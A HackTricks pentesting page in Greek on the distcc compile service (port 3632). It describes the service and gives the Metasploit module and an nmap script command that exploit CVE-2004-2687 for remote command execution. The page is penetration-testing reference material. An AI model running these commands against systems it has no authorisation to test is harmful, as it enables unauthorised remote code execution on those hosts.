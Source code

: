 {{#include ../banners/hacktricks-training.md}}

# Βασικές Πληροφορίες

**Distcc** είναι ένα εργαλείο που βελτιώνει τη **διαδικασία μεταγλώττισης** χρησιμοποιώντας τη **μη χρησιμοποιούμενη επεξεργαστική ισχύ** άλλων υπολογιστών στο δίκτυο. Όταν το **distcc** είναι ρυθμισμένο σε μια μηχανή, αυτή η μηχανή είναι ικανή να διανέμει τις **εργασίες μεταγλώττισης** σε ένα άλλο σύστημα. Αυτό το σύστημα παραλήπτης πρέπει να εκτελεί τον **distccd daemon** και να έχει εγκατεστημένο έναν **συμβατό μεταγλωττιστή** για να επεξεργαστεί τον αποσταλμένο κώδικα.

**Προεπιλεγμένη θύρα:** 3632
```
PORT     STATE SERVICE
3632/tcp open  distccd
```
# Εκμετάλλευση

Ελέγξτε αν είναι ευάλωτο σε **CVE-2004-2687** για να εκτελέσετε αυθαίρετο κώδικα:
```bash
msf5 > use exploit/unix/misc/distcc_exec
nmap -p 3632 <ip> --script distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```
# Shodan

_Δεν νομίζω ότι το shodan ανιχνεύει αυτή την υπηρεσία._

# Resources

- [https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec](https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec)
- [https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855)

Post created by **Álex B (@r1p)**

{{#include ../banners/hacktricks-training.md}}

